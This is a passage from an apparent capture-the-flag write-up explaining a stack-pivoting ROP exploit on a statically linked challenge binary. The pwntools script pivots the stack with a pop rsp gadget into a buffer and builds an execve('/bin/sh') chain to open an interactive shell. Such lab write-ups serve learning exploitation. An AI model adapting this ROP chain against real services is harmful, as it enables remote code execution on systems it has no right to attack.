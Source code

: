 <figure><img src="../../../.gitbook/assets/image_2023-08-27_221744564.png" alt="" width="402"><figcaption></figcaption></figure>

and we successfully alter the program execution

### Stack pivoting and ret2execve

Since the program is compiled statically, we have a lot of gadgets at our disposal and it will be our goal to gain remote code execution. However, our buffer won't be large enough to accommodate  our large payload, so we need to do a stack pivoting, essentially we'll move the stack pointer to an area where we can put a larger buffer.

Thankfully, the author has already provided this on <mark style="color:green;">**get\_private()**</mark>. What we'll have to do is to put our ropchain on <mark style="color:green;">**private\_buffer**</mark> and move the stack pointer there. To do this we'll use the <mark style="color:orange;">**pop rsp**</mark> gadget. this works because each the <mark style="color:red;">**rip**</mark> depends on the <mark style="color:orange;">**rsp**</mark> to feed instructions from. and since we alter the <mark style="color:orange;">**rsp**</mark> to our controlled input, the <mark style="color:red;">**rip**</mark> will then be fed those ropchain.

{% code title="exploit.py" %}
```python
# ...some code

private_buffer = 0x4c9320
syscall = 0x041b236
rdx_rbx = 0x048656b

offset = 72
payload = flat({
    offset: [
        rop.rsp.address,
        private_buffer,
        rop.ret.address
    ]
})

ropchain = flat([
    rop.rdi.address,
    private_buffer + 10 * 8,
    rop.rsi.address,
    0,
    rop.find_gadget(["pop rdx", "pop rbx", "ret"])[0],
    0,
    0,
    rop.rax.address,
    0x3b,
    syscall, # syscall; ret;
    b'/bin/sh\x00',
])

io.sendlineafter(b'note:', ropchain)
io.sendlineafter(b'note:', payload)

io.interactive()
```